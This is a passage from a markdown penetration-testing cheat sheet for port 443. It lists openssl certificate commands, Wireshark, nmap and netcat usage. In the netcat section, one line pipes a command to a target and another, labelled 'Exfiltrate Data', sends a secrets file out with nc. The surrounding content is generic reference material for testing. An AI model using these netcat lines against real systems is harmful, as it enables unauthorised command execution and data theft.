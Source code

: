     ```bash
    openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365
    ```
*   **Generate a new private key and certificate signing request (CSR):**

    ```bash
    openssl req -new -newkey rsa:2048 -nodes -keyout example.com.key -out example.com.csr
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 443"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 443
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 443
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 443 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 443
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 443 < secret_data.txt
    ```
*   **HTTP Request:** Sends a manual HTTP GET request to retrieve `index.html` from the target server.

    ```bash
    echo -e "GET /index.html HTTP/1.1\r\nHost: <target_ip>\r\n\r\n" | nc <target_ip> 443
    ```
